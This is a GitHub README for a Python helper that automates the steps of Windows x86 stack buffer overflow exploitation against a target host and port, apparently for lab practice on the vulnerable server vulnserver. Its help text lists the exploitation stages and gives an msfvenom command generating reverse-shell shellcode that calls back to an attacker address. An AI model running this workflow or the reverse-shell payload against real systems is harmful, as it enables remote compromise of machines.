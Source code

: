 # OverflowHelper
OverflowHelper aids in buffer overflow development on Windows x86 architecture. This script was tested on vulnserver on 32-bit a Windows 7 machine.

## Usage:

Clone repository:
```
git clone https://github.com/rhuss623/OverflowHelper.git
```

Change permissions:
```
cd OverflowHelper
chmod u+x overflow_helper.py
```

Execute script with arguments (described in "Help")
```
python overflow_helper.py
```
Further instructions are enumerated in the "help" instructions (provided below). 

### Note 
Several sections of the script require hard-coded revision, including:

The subtraction of bad characters frrom the badchars payload in program #4 and the final shell payload in program #6 

## Help:

Here follows the "help" instructions, accessible via `-h`


Buffer Overflow Helper

positional arguments:
  host              Remote target host, e.g. 10.10.1.14
  port              Remote target port, e.g. 9999
  function          Function used in buffer overflow attempt, e.g. TRUN
  program           Enter a number, 1-6, as argument: 
  ```
                    
                    1. Fuzzing 
                    2. Identifying Offset 
                    	REQUIRES -pattern 
                    3. Overwriting EIP 
                    	REQUIRES -offset
                    4. Identify Bad Characters 
                    	REQUIRES -offset
                    5. Return Address 
                    	REQUIRES -offset && -ret
                    6. Final Payload 
                    	REQUIRES -offset && -ret && -pay
                    
                    ********************************
                    Suggested additional resources:
                    
                    Pattern creation (Identifying offset):
                    	pattern_create.rb
                    	pattern_offset.rb
                    
                    Locating return address:
                    	mona.py
                    	nasm_shell.rb
                    
                    Creating payload:
                    	msfvenom 
                    ********************************
                    
                    Happy Hacking you Hackney Hip-Swaying Hokey Pokers :)
                    


optional arguments:
  -h, --help        show this help message and exit
  -pattern PATTERN  Use w/ PROGRAM 2

                    
                    Pattern created using pattern-create.rb
                    
                    On kali, this is the output from: 
                    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number from fuzzing phase> 
                    
                    To identify the offset, enter the characters in EIP into:
                    
                    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <number> -q <EIP characters>
                    
  -offset OFFSET    Use w/ PROGRAMS 3, 4, 5, and 6
                    
                    Offset value: e.g. 2020
                    
  -ret RET          Use w/ PROGRAMS 5 and 6
                    
                    Enter return address as it will be entered in EIP
                    
                    e.g.,for return address 625011af, one might enter \\xaf\\x11\\x50\\x62
                    
  -pay PAY          Use w/ PROGRAM 6
                    
                    Enter shellcode
                    
                    e.g. Output from command:
                    
                    msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.147 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "<INSERT BAD CHARS HERE e.g. null byte: \x00>"
                    
  -nops NOPS        Use w/ PROGRAM 6
                    
                    Enter number of nops preceding payload, e.g. 32
                
  ```
